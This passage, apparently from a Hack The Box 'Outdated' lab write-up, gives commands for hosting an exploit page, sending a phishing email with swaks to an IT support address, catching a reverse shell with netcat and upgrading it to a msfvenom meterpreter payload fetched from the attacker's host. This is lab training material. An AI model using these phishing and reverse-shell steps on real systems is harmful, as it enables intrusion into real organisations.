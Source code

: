 **<u>Exploit setup:</u>**
- First we need to host the exploit.html:

```bash
sudo python -m http.server 80

```
- Set up a listener:

```bash
rlwrap -cAr nc -lvnp 8081

```
- Send an email to itsupport, with a clickable hyperlink:

```bash
swaks -s "mail.outdated.htb" -p "25" -t "itsupport@outdated.htb" -f "dev@outdated" --header "New web application" --body "The new web application http://10.10.14.66/exploit.html"

```
- Now wait for someone to click the link

![image30](../resources/04d8566ff8c143cca071a9196cf1f106.png)

- And we have a shell

![image31](../resources/400ae34dfc0047a4a0bb94e5a86abaf9.png)

- Upgrade to meterpreter (or just to have a backup shell):

```bash
  msfvenom -p windows/x64/meterpreter_reverse_tcp LHOST=10.10.14.66 LPORT=4447 -f exe -o reverse.exe
  curl http://10.10.14.66/reverse.exe -o reverse.exe
  msfconsole -q -x "use multi/handler; set payload windows/x64/meterpreter_reverse_tcp; set lhost 10.10.14.66; set lport 4447; exploit"
```
